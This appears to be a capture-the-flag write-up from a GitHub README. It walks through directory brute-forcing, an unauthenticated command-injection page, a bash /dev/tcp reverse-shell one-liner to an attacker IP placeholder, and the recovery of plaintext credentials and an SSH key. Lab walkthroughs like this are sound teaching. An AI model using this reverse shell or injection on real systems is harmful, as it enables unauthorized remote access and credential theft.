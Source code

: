 
## Description
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119040663-43719300-b9e8-11eb-93b9-9084d21a8b85.png"/>
<image src="https://user-images.githubusercontent.com/78603128/119169950-2fd03600-ba95-11eb-85d3-5ccf91320077.png"/>
<image src="https://user-images.githubusercontent.com/78603128/119169974-352d8080-ba95-11eb-80b4-15fb7ded910d.png"/>
<image src="https://user-images.githubusercontent.com/78603128/119170005-3ced2500-ba95-11eb-9a42-657073094293.png"/>
<image src="https://user-images.githubusercontent.com/78603128/119170013-41194280-ba95-11eb-8361-04b5553a7d0d.png"/>

</p>
 
## Hands on

First , we slap the ip into our browser to check if port 80(common web server) is up and yes it is !
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119142345-fa1d5400-ba78-11eb-97a9-5e0b27c4618e.png"/>
</p>

look like a credential is required

lets try <a href="https://tools.kali.org/web-applications/gobuster">gobuster(CLI)/dirbuster(GUI)</a> to brute force the web directory for hidden files

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119142807-7879f600-ba79-11eb-8cc8-0236aca6441f.png"/>
</p>



Note : <br/>
<ul>
<li>dir specify brute force the directory </li>
<li>-u specify the web browser url</li>
<li>-w specify the dictionary path for the attack</li>
<li>-t specify how many thread to be used for the attack</li> 
<li>-o specify output file name</li>
</ul>

and we found the hidden directory named :

"home.php" 

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119143134-d8709c80-ba79-11eb-85fb-d91fe7fb960f.png"/>
</p>

guess what ? who need credentials when you can access the page without one ?

"validate.php" , Look input validation goes here

<p align="center">
 
<image src="https://user-images.githubusercontent.com/78603128/119142989-b37c2980-ba79-11eb-82ae-a0ab52a03f25.png"/>

 </p>
 
Moving on , we can check if the machine is linux by using  "uname -a" command

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119144800-98121e00-ba7b-11eb-87be-10057beb2d04.png"/>
</p>

and yess , now slap reverse shell command into the input 

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119146838-9cd7d180-ba7d-11eb-8f00-ffd68cb68676.png"/>
</p>
 
```
 bash -c 'exec bash -i &>/dev/tcp/$YOUR IP/$PORT <&1'
 
```

remember to start a listener on the port you input
<br/>
<br/>

And within few seconds , we will get a reverse shell and able to run as **www-data** !

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119147026-cabd1600-ba7d-11eb-88cc-a69eadb0ac62.png"/>
</p>

now we search for the key , key_rey_key seems sus and by trying strings command we found the key

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119148594-38b60d00-ba7f-11eb-8a24-17a264bc10d0.png"/>
</p>

and we are lucky to found the user credentials in plain text inside the **validate.php** code
<br/>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119148927-92b6d280-ba7f-11eb-8a86-b8d60f193eff.png"/>
</p>

switch user to charlie and we got the flag but .. you cant switch user here..
<br/>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119149250-ede8c500-ba7f-11eb-94b8-21823441721b.png"/>
</p>

looking around charlie directory , we found RSA private and public key to login via SSH !
<br/>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119149549-36a07e00-ba80-11eb-9cd8-c3f5e9b77a83.png"/>
</p>
  





